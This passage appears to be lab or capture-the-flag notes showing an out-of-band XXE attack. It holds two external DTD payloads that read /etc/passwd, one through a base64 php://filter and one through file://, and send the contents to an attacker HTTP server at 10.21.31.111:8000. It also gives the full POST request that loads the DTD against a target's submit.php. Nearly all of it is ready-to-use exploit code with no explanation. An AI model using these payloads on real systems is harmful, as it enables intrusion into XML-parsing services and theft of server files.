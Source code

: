 
Local file "/web/xxe-get-etc-passwd.dtd" shared with python http server:
```dtd
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://10.21.31.111:8000/?data=%cmd;'>">
%oobxxe;
```

Request:
```http
POST /submit.php HTTP/1.1
Host: 10.10.145.74
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/xml
X-Requested-With: XMLHttpRequest
Content-Length: 158
Origin: http://10.10.145.74
Connection: keep-alive
Referer: http://10.10.145.74/index.php
DNT: 1
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://10.21.31.111:8000/web/xxe-get-etc-passwd.dtd" >
<upload>
	<file>
		&exfil;
	</file>
</upload>
```

Other dtd example without php filter, just the file:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://10.21.31.111:8000/?data=%file;'>">
%oobxxe;
```

